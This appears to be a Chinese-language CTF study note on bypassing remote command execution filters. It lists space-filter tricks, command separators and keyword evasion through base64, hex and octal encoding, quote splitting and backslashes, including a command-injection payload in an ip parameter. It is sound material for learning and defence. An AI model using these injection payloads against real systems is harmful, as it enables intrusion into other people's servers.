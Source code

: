 ```yaml
---
title: RCE远程命令执行绕过
date: 2020-03-17 17:01:45
toc: true
tags: 
- CTFhub-RCE
categories: 
- Bypass
---
```


做ctfhub后小总结，以及参考

## 空格过滤

空格过滤的情况下，可以通过利用重定向符、IFS、其他字符代替、{,}等方法进行绕过

~~~bash
cat<flag //重定向符
cat<>flag //重定向符
cat${IFS}flag //IFS
可能也过滤了{}，用$IFS$1代替：
?ip=127.0.0.1;cat$IFS$1index.php
cat%09flag //其他字符代替
{cat,flag} //{,}
~~~

## 命令分隔符

~~~bash
linux中：%0a 、%0d 、; 、& 、| 、&&、||

windows中：%0a、&、|、%1a（.bat文件中的命令分隔符）

;： 在 shell 中，担任”连续指令”功能的符号就是”分号”。命令按照顺序（从左到右）被执行，并且可以用分号进行分隔。当有一条命令执行失败时，不会中断其它命令的执行。

&：简单拼接 无制约

&&：前面执行成功后面才会执行

|：符号 左边输出 作为右边输入，所以左边的输出并不显示。当第一条命令失败时，它仍然会执行第二条命令

||：前面执行失败才会执行后面
~~~

## 敏感字符过滤绕过

过滤ls、cat、flag等

### 编码绕过

#### base

~~~bash
[shymdembp:~]
[shym]% echo 'cat' | base64
Y2F0Cg==
[shymdembp:~]
[shym]% `echo 'Y2F0Cg==' | base64 -d` flag.txt
flag{sadas_sadsad_sadasdad-sdsad}
[shymdembp:~]
~~~

#### hex

~~~bash
[shymdembp:~]
[shym]% echo "63617420666C61672E747874" | xxd -r -p|bash
flag{sadas_sadsad_sadasdad-sdsad}
[shymdembp:~]
[shym]%
~~~

#### oct(八进制)

~~~bash
[shymdembp:~]
[shym]% printf "\154\163"
ls%                                                                             [shymdembp:~]
[shym]% printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"
cat /flag%
~~~

### 连字符绕过

~~~bash
[shymdembp:test]
[shym]% ca''t flag
flag{123-4123--213-213-123}
[shymdembp:test]
[shym]% ca''t fl''ag
flag{123-4123--213-213-123}
[shymdembp:test]
[shym]% c''at fla''g
flag{123-4123--213-213-123}
~~~

### 变量绕过

~~~bash
a=l;b=s;$a$b
~~~

### 反斜杠绕过

~~~bash
[shym]% ca\t fl\ag
flag{123-4123--213-213-123}
[shymdembp:test]
[shym]% c\at f\lag
flag{123-4123--213-213-123}
~~~

### ip进制转换绕过

~~~bash
//ip地址过滤可将ip地址转化为数字ip地址

IP地址用“点分十进制”表示，用“.”分成4部分；数字地址是一串用“十进制”表示的数字。
　 比如：百度的IP地址“39.156.69.79”转换成数字地址就是“664552783”。在浏览器中输入664552783就可以访问百度网站
转化网址：http://www.msxindl.com/tools/ip/ip_num.asp
~~~

## 无回显创建文件绕过

~~~bash
linux下用	1>1 可创建文件名为1的空文件。
					a>1 虽报错，但可以创建空文件。
					ls>1 把ls的内容导入1中
~~~

在做这类题目时，一部分会给出源代码，我们可以直接参考源代码进行选择绕过让法。

如果没有，我们需要去猜测后台语句如何构造的，过滤了哪些，还有哪些可以用，然后结合各种绕过方式构造payload。



